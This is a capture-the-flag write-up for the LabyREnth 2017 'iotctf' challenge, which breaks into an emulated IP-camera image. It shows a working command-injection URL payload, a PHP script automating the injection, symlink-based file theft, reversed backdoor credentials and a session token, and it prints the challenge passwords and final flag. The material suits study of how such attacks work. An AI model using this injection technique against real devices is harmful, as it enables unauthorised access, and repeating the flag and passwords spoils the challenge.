










## LabyREnth CTF 2017
# Mobile 5 : iotctf

The password to decrypt the challenge 7zip file is "Jgyx98zdRKDTgN6qJDwruNZ2zRfW}>vEgwvmgzRN"

However, the challenge zip file is huge (>500MB). Therefore, I did not upload it to this writeup.  
This is a really interesting challenge so I hope Palo Alto will provided a download link sometime in the future.  
If you really need it, pop me a message over Twitter (@_graypanda) and I'll pass it to you somehow.

We are provided with a Docker image and some instructional text files on how to install Docker and run this image

First of all, follow the instructions on README.txt to setup the Docker environment
- Setup a Ubuntu VM
- Install docker
- Boot the docker image as instructed.

To restart the docker image after shutdown
- sudo docker rm iotctf (This will delete all changes made to the docker image previously)
- sudo ./run_docker.sh

### Pwning the Docker Image

Visit 127.0.0.1:8080 to see the IP Camera management website. Browse through the website.


Looking through the Javascript code in the page sources, some parameters seems to be injectable.
- show_ip() function in network.html



- submit_ntp() function in setting.html



The hint from the readme file suggests that you are trying to look for some kind of backdoor.

Let's look at how this docker image was created first.


As we are looking for backdoors, the 3 exposed ports seems suspicious
- 8080 (Web Management UI)
- 3721 (??)
- 2222 (??)

Also of note is "/root/run.sh" is executed. Let's connect to the docker bash and look at this file



This shellscript launches a qemu ARM emulator loading the specified files.  
All these files are in the /root/ directory.

Also port 2222 is redirected to port 22 of this ARM emulator. Port 22 is used for ssh.  
Port 3721 is still unknown.

These files can be extracted if you untar the iotctf.tar

```bash
> untar "abd3a93ed18e648d47931e4ad8d3ca8b1be5090ba7521c10ee336faa0a78afee/layer.tar"
```

The files are in the /root/ directory. Extract hda.qcow2 in particular (This is the filesystem)

You can mount this filesystem image using qemu-nbd from the qemu-kvm package.

```bash
> sudo apt-get install qemu-kvm
```

I downloaded this wrapper script [qcow2_explore.py](https://github.com/JonathonReinhart/qcow2-explore/blob/master/qcow2_explore.py) that makes the mounting and unmounting of this image much easier.

```bash
> sudo python qcow2_explore.py hda.qcow2
    Load partition 1
```

Now, you are able to explore the filesystem of the ARM image.

The important files are in the "**/root/mgmt/**"" folder which seems like the Webserver folder.  
Looking through the codes, HTTP GET requests are mainly handled by **mgmt.py**  
"cat" and copy this file out for easier analysis (I included a [copy here](mgmt.py) for reference)

Looking through the functions, return_ip() and set_ntp() is indeed injectable.  
However, set_ntp() only returns a boolean result. So let's focus on return_ip()


To trigger this function, we have to visit
- http://127.0.0.1:8080/get_ip.html?interface=

The "interface" parameter is used unsanitised in the cmd call

Let's try http://127.0.0.1:8080/get_ip.html?interface=a;ps;%23 (%23 is url-encoded '#')

This will result in the cmd 

```bash
> ifconfig a;ps;# |grep 'inet addr:' | cut -d: -f2 | awk '{print $1;}'
```

This will execute "ifconfig a" and then "ps". The '#' will comment out the remaining commands.



The browser will display a XML error but if you view the page source, you will see the following


The page indeed return the "ps" output. We have **CMD Injection**!!

I wrote [cmdInject.php](cmdInject.php) to make it easier to perform this injection.

```php
$url = "127.0.0.1:8080/get_ip.html?interface=";
$cmd = $argv[1];
$cmd = str_replace(" ", "%20", $cmd); // use %20 for space in cmd line
$cmd = urlencode("aaa;").$cmd.urlencode(";#"); 
$full = $url.$cmd;

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $full);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

$resp = curl_exec($ch);
echo $resp."\n";
curl_close($ch);
```

### Figuring out Port 3721

Now, let's try to figure out what is listening on port 3721

```bash
> php cmdInject.php "netstat -tulpn"
```


Interesting, a python program is listening on port 3721

```bash
> php cmdInject.php "ps auxw"
```


```bash
> php cmdInject.php "hd /usr/sbin/fwupdate"
```


This header reveals that it is a compiled python file (pyc).  

Looking back at the webserver code in [mgmt.py](mgmt.py), there is a way for us to download any files in the "/files/" subfolder


Create a symbolic link in the "files" subfolder to our fwudpate file

```bash
> php cmdInject.php "ln -s /usr/sbin/fwupdate /root/mgmt/files/fwupdate"
```

Browse to http://127.0.0.1:8080/files/fwupdate to download the file.

Use [uncompyle](https://github.com/rocky/python-uncompyle6) to decompile the pyc back to its python code

```bash
> uncompyle2 fwupdate > fwupdate.py
```

The Strings in this code are obfuscated. 



I wrote the [fwdeobfus.py](fwdeobfus.py) to deobfuscate the strings. 



Basically, this python script is listening for 2 urls
- /login? -> calls "/usr/sbin/dnsclient" to handle
- /take-photo? -> calls "/sbin/sysdiag" to handle

Download these 2 files using the previous downloading method using symbolic links

```bash
> php cmdInject.php "ln -s /usr/sbin/dnsclient /root/mgmt/files/dnsclient"
> php cmdInject.php "ln -s /sbin/sysdiag /root/mgmt/files/sysdiag"
```

Browse to these urls to download them
- hxxp://127.0.0.1:8080/files/dnsclient
- hxxp://127.0.0.1:8080/files/sysdiag

### Figuring out the 2 ARM Binaries

These 2 files are both ARM Binaries. Running strings on these binaries reveal that they are packed using upx.


UPX can be easily unpacked.

Download upx from its official website [https://upx.github.io/](https://upx.github.io/)
- I downloaded the latest linux version

Unpack the binaries using upx

```bash
> upx -d dnsclient
> upx -d sysdiag
```

Throw these 2 binaries into IDA Pro to analyze them.

Although these are in ARM Assembly but they are fairly straightfoward

**dnsclient**

The url have to be in the form of "/login?username=xxx&password=yyy"


Extracts the username and password strings (checks that they are 8 characters in length)


Performs a series of XOR operations and a final comparison. Can be summarised as the following

> username XOR password XOR "}w|~eswb" == "backdoor"



If above is successful, creates and returns a "token" value

> token = username XOR password XOR "panwpanw" + some random chars

This is actually a very indirect way of checking the username and password values.

If we set the password value to "}w|~eswb", the xor operation becomes

> username XOR password XOR "}w|~eswb" == "backdoor"

> username XOR "}w|~eswb" XOR "}w|~eswb" == "backdoor"

> username == "backdoor"

Therefore the correct credentials is "/login?username=backdoor&password=}w|~eswb"

As there are special characters in this URL, I wrote [dnsclient.php](dnsclient.php) which will connect to the url 

```
http://127.0.0.1:3721/login?username=backdoor&password=}w|~eswb
```

Running it returns a "token" value


**sysdiag**

The url have to be in the form of "/take_photo?token=xxx"



It then extracts the token string and base64-decodes it



Extract the first 8 bytes of the decoded token string
- Xors these 8 btyes with a key "\x16\x12\x02\x4e\x1d\x12\x04\x03"

Assume that we are passing it the token value that we just got from "dnsclient" above.  
The resulting string is "yes,lord"  
It then appends "uanw8u96" to make it "yes,lorduanw8u96"


This string is used as some kind of key to decrypt the file "/var/opt/log"
- Did not reverse this section, not sure how it was decrypted



The decrypted result is returned as a PNG file

We can get this PNG file by simply visiting the url

```
http://127.0.0.1:3721/take_photo?token=b3dxYnF9dmd1WTVGYUlUZw==
```

### To be or not to be

Save the image as photo.png


Use a Hex editor to view "photo.png" and look near the end of the file.  
There seems to be some kind of ZIP structure ("PK" headers)


Save the contents from offset 0x117c7d (The "PK" header right after the "IEND" string) into photo.zip


Opening "photo.zip" reveals it contains 2 files
- README_I_AM_NOT_ENCRYPTED
- flag

Trying to open any one of these files prompts a password input.  
It appears this zip file is encrypted or is it?

The file "README_I_AM_NOT_ENCRYPTED" seems to be giving us a clue.  
Is it possible that only the "flag" file is encrypted and not the README file.  
How does a zip file knows that a file is encrypted?

To do that, we need to understand how a Zip File is structured.  
Some excellent resources are here
- https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html
- https://en.wikipedia.org/wiki/Zip_(file_format)#File_headers

Basically each file in a ZIP file will have a Local File Header and a Central Directory File Header  
Whether a file is encrypted or not is determined by a bit in the General Purpose bit flag

**Local File Header**
```
Offset  Bytes   Description
0       4       Local file header signature = 0x04034b50 (read as a little-endian number)
4       2       Version needed to extract (minimum)
6       2       General purpose bit flag
...
```

**Central Directory File Header**
```
Offset  Bytes   Description
0       4       Central directory file header signature = 0x02014b50
4       2       Version made by
6       2       Version needed to extract (minimum)
8       2       General purpose bit flag
...
```

**General purpose bit flag**
```
Bit 00: encrypted file
Bit 01: compression option 
Bit 02: compression option 
Bit 03: data descriptor
Bit 04: enhanced deflation
Bit 05: compressed patched data
Bit 06: strong encryption
Bit 07-10: unused
Bit 11: language encoding
Bit 12: reserved
Bit 13: mask header values
Bit 14-15: reserved
```

Bit 0 of the General Purpose bit flag determines if the file should be treated as an encrypted file.  
Therefore, to make ZIP programs treat the README file as not encrypted, we need to clear bit 0 of this flag

In this case, we need to change byte offset **0x88** and **0x1a3** from "0x03" to "0x02".  
Use a Hex Editor and change these bytes to 0x02 and save it as "photo_fixed.zip"


Now, try opening the README file inside this zip. It opens successfully


Open the "flag" file with the above password "bad9ea55d2f57a3131825cb5b5c1d220378dd439" gives us the flag
    


The flag is **PAN{We1c0me_2_W0r1d_0f_1NT3RN3T_0F_C4TS}**